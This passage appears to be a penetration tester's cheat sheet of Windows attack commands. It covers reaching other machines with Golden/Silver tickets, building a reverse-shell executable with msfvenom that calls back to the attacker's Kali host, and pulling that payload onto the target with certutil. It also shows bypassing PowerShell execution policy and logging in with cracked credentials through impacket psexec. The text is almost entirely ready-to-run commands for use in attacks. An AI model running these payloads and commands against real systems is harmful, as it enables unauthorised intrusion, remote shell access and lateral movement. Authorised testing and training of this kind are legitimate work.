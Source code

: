 To access other machines with the Golden/Silver ticket:
to spawn cmd.exe instance for your new ticket:
```bash - kali
misc::cmd  
```

```bash - target
dir \\<other machine name or IP>\C$
```

## MSFVenom Reverse Shell (.exe)

Nothing special to this. I just liked having it handy.

```bash - kali
msfvenom -a x64 — platform Windows -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o reverse.exe
```

If this one doesn’t work try:
```bash - kali
windows/x64/shell/reverse_tcp
```

as the payload instead. Or **take out x64 if it’s a 32-bit box.**

## File Transfer (From Target)

On localhost, start webserver from location in which the file you want to transfer is in:

```bash - kali
python3 -m http.server 80
```

On target, enter this command:
```command prompt - target
certutil.exe -urlcache -split -f http://$KALI:80/reverse.exe
```

## Start PowerShell Session And Import Module
```command prompt - target
powershell.exe -nop -exec bypass
```

```powershell - target
Import-Module <Full Path to xyz.ps1>
```

## Connect To Host w/ Found/Cracked Creds
```bash - kali
python3 /opt/impacket/examples/psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

**or**

```bash - kali
impacket-psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```
